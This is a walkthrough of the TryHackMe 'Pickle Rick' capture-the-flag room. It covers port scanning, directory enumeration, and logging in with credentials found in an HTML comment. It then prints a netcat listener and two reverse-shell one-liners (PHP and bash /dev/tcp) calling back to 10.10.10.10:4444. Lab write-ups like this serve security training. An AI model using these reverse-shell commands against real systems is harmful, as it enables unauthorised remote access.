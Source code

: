 ## Try Hack Me Pickle Rick
https://tryhackme.com/room/picklerick

### 🧁nmap
```
nmap -Pn -sV -sT -T4 -A 10.10.164.54 -p- -vv
```

```
Not shown: 65513 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:37:06:24:e5:3e:e9:fb:dd:23:85:e1:9a:b8:ed:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT81rApdbIqrliStEeJd//NKS3V2Ca81KZ9e1omNR6Vu1b7txqq5/482iWYJ+yUcooDvWov4yzRPlftP12Lc3SIAr6cGjlYOLko8KMQQBQc5diWT7jHJhDLoMi7PaqTi5psNR2ePPaW+sz++DLWmDUYNLk9Z8Og+MZ09ugFBftgDOcJLExrJtJ1kGbslB+wjfZxAgHaLfLthdszonmbxCgUPBMhkA5xdSPvQlH7jvvxM7s5ism3XXL0ZeRykRXuxHPppchhy4Tfjym1XnUuKAwoUiXjVqxpnzrEG3fduFXBYDi/kVp5+mN5RBlLU6S6OPpjFzTA6Zv5e9yRluD5Cg9
|   256 56:5b:52:d5:96:17:30:43:a4:44:40:22:fd:cd:4e:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiZLP3/I06uORHJxSANOD67D2v7wwz3heBtgMVli4QBmEvXHYm53Lzw6yz5pTl8m01+2LxALaTNL2SagNk00jU=
|   256 19:ad:3f:6d:c4:29:2c:82:97:63:23:b3:93:ba:e4:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8Z/Gfb4vuSqzbEbUY6ngoyFGJpygvAYaPeuozk29eS
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
🚩22 ssh, 80 http open


```
curl 10.10.164.54
```

```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

🚩Username: R1ckRul3s

### 🧁gobuster
```
gobuster dir -u http://10.10.164.54 -w common.txt -x html,shtml,php,jsp,zip,gz,tar,bk -t 50 -b 403,404
```

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.164.54/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

![image](https://user-images.githubusercontent.com/6504854/177176350-7fb88066-a6ef-44e8-a349-87eb04b95932.png)

![image](https://user-images.githubusercontent.com/6504854/177176488-1c82a4ae-2ff9-4302-a433-0ba4ae5d6f2e.png)

![image](https://user-images.githubusercontent.com/6504854/177176572-826a6985-115f-4064-a5c7-b254eb12d3fe.png)

### 🧁web-shell
Login Username:R1ckRul3s Pass:Wubbalubbadubdub
use command panel
![image](https://user-images.githubusercontent.com/6504854/177176919-7d3ad620-c63e-4657-b49c-997c7f00143e.png)

```
nc -lnvp 4444
```

```
php -r '$sock=fsockopen("10.10.10.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
![image](https://user-images.githubusercontent.com/6504854/177181156-74abc304-0a75-446c-93a5-ce76a845314f.png)

![image](https://user-images.githubusercontent.com/6504854/177181337-8bfd5398-00a7-434b-9b66-cea9241685bd.png)

### 🧁flag
```
cat Sup3rS3cretPickl3Ingred.txt
**. ****** ****
```

```
cd /home
ls
rick
ubuntu
cd /home/rick
ls
second ingredients
cat 'second ingredients'
* ***** ****
```

```
ls /root
3rd.txt
snap
cat /root/3rd.txt
*** *********** ***** *****
```

😄Happy hacking. Thank you for your time.

php使えるので思い付きでphpのonelinerを投げてしまいましたが、

いつも通り　 ``` bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' ``` とかがスマート。　
